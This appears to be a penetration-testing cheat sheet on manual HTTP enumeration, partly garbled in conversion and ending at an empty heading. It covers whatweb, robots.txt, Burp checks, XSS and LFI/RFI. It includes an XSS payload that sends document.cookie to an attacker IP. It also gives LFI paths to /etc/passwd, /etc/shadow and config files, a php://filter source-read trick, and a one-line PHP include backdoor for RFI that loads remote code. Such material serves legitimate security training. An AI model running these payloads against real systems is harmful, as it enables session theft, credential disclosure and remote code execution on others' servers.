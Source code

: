 ## MANUAL HTTP SCANS

Check the source code

Technologies used

> $whatweb &gt; $ip:80 --color=never --log-brief="whattheweb.txt"

curl -s \[http:// &gt; $ip/robots.txt\]\(http:// &gt; $ip/robots.txt\)

Burp

> $ get params  
> $ post params  
> $ cookies  
> $ user agents  
> $ referrers  
> $ all the headers  
> $ change get requests to posts  
> $ take note of all error codes  
> $ fuzz parameter values, and names, etc.

Things to be on look for:

> $ Default credentials for software  
> $ SQL-injectable GET/POST params  
> $ XSS  
> Test  
> $ &lt;script&gt; alert\("Hello! I am an alert box!!"\);&lt;/script&gt;  
> $ &lt;iframe SRC="http:10.11.0.106/xss\_test.html" height = "0" width ="0"&gt;&lt;/iframe&gt;  
> Exploit  
> $ &lt;script&gt;new Image\(\).src="[http://10.11.0.106/bogus.php?output=](http://10.11.0.106/bogus.php?output=)"+document.cookie;&lt;/script&gt;  
> $ LFI/RFI through ?page=foo type params  
> LFI:  
> $ /etc/passwd \| /etc/shadow insta-win  
> $ /var/www/html/config.php or similar paths to get SQL etc creds  
> $ ?page=php://filter/convert.base64-encode/resource=../config.php  
> $ ../../../../../boot.ini to find out windows version  
> RFI:  
> $ Have your PHP/cgi downloader ready  
> $ &lt;?php include \_GET\\['inc'\\]; ?&gt; simplest backdoor to keep it dynamic without anything messing your output &gt; $ Then you can just [http://IP/inc.php?inc=http://](http://IP/inc.php?inc=http://) &gt; $YOURIP/bg.php and have full control with minimal footprint on target machine $ get phpinfo\(\)

HTTPS

> $ Heartbleed / CRIME / Other similar attacks  
> $ Read the actual SSL CERT to:  
> $ find out potential correct vhost to GET  
> $ is the clock skewed  
> $ any names that could be usernames for bruteforce/guessing

LFI Linux Files:
